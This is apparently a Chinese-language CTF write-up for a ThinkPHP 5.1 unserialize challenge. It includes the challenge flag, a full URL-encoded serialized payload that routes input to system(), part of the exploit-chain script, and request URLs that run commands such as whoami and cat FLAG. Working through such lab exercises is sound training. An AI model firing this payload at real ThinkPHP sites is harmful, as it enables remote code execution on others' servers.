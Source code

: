 ```yaml
---
Author: SuperJason
Date: 2020-12-29
---
```


## flag
`n1book{de70641304640057390e8fabc8b515bf}`

## 前言
这道题目的环境是有问题的，我不知道是BUUCTF上的环境问题，还是说Nu1l官方的docker环境有问题。提供的源代码与环境自身的源代码不一致，导致浪费了很多时间，并且官方给的exp和wp无法对应，对于没有做过tp利用链的人来说门槛较高，还需要自己去debug，不过确实学到了很多，下面开始WP。
## 思路
1. 访问环境时提示下载源代码`www.zip`   
   ![](./images/phpunser-5.png) 
2. 下载源代码后解压缩，通过阅读readme.md发现是thinkphp 5.1版本，网上搜索后，得到[利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php)，只需执行`php thinkphp_5.1_exp.php`，便可以得到payload。关于利用链的构造网上很多大神分析了，可以看[Thinkphp 5.1 反序列化利用链深入分析]，我就不分析了，重点讲下做题。(https://paper.seebug.org/1040/)  
   ```
   payload内容如下：
   O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A1%3A%22a%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A1%3A%22a%22%3BO%3A13%3A%22think%5CRequest%22%3A3%3A%7Bs%3A7%3A%22%00%2A%00hook%22%3Ba%3A1%3A%7Bs%3A7%3A%22visible%22%3Ba%3A2%3A%7Bi%3A0%3Br%3A8%3Bi%3A1%3Bs%3A6%3A%22isAjax%22%3B%7D%7Ds%3A9%3A%22%00%2A%00filter%22%3Bs%3A6%3A%22system%22%3Bs%3A9%3A%22%00%2A%00config%22%3Ba%3A1%3A%7Bs%3A8%3A%22var_ajax%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D%7D%7D%7D
   ``` 
3. 这里分析一下thinkphp的2个主要文件，然后分析一下[利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php) 
   1. application\index\controller\index.php文件,只有请求被hello解析时，才能通过构造POST请求将payload赋值给str，实现反序列化利用。
      ```php
      <?php
      namespace app\index\controller;

      class Index
      {
         public function index()
         {
            return "<a href='www.zip'>download code</a>";
         }

         public function hello()
         {
            unserialize($_POST['str']);
         }
      }
      ```
   2. route\route.php文件，压缩包源代码与实际BUUCTF服务器代码不一样。本人先在本地phpstudy搭建环境获得命令执行权限后，服务器相同url却不能获得权限，后来证实原因是路由代码不一致。
     - 压缩包代码如下
         ```php
         <?php
         Route::get('think', function () {
            return 'hello,ThinkPHP5!';
         });
         Route::get('hello/:name', 'index/hello');
         return [
         ];
         ```
      - BUUCTF服务器代码
         ```php
         if (is_file($_SERVER["DOCUMENT_ROOT"] . $_SERVER["SCRIPT_NAME"])) 
         { return false; } 
         else
         { require __DIR__ . "/index.php"; } 
         ```
   3. [利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php)前几行内容如下，其中`a`参数用来承载实际执行的命令。
      ```php
      <?php
      namespace think;
      abstract class Model{
         protected $append = [];
         private $data = [];
         function __construct(){
            $this->append = ["a"=>[""]]; 
            $this->data = ["a"=>new Request()];
         }
      }
      ```
4. 本机phpstudy环境下，根据源代码构造了两种url请求，以whoami为例子。第一个请求路由为*application\index\controller\index.php文件*->*Index类*->*hello()方法*，第二个请求利用了thinkphp的[兼容模式url](https://m.php.cn/phpkj/thinkphp/448480.html)
- `http://{your_server}/public/index.php/index/Index/hello?a=whoami`
- `http://{your_server}/public/index.php?s=index/index/hello&a=whoami`
  ![](./images/phpunser-1.png)  
  ![](./images/phpunser-2.png)
5. 介绍完本机命令执行，再来介绍BUUCTF命令执行。服务器只能用第二种请求，构造参数`a=cd /;ls`和`a=cd /;cat FLAG`，`str`的值为1中payload，通过`hackbar`或`burpsuite`发包。   
   ![](./images/phpunser-3.png) 
   ![](./images/phpunser-4.png) 
## 总结  
thinkphp 5.1的反序列化漏洞，由于thinkphp 5.1还存在RCE漏洞(漏洞触发条件是默认路由情况下，可以导致RCE)，所以这道题源代码的route.php修改了默认路由，不能直接通过RCE执行命令，只能按着出题人思路用php反序列化。  
难点如下
- 找到利用点，application\index\controller\index.php文件的hello函数
- 构造正确的路由，不清楚tp路由的话，很难构造正确的路由，正确构造`a`的值，post上传`str`的payload
- thinkphp5.1 php反序列化利用链

## 参考资料
- [php反序列化与session反序列化](http://p0desta.com/2018/04/01/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%80%BB%E7%BB%93/)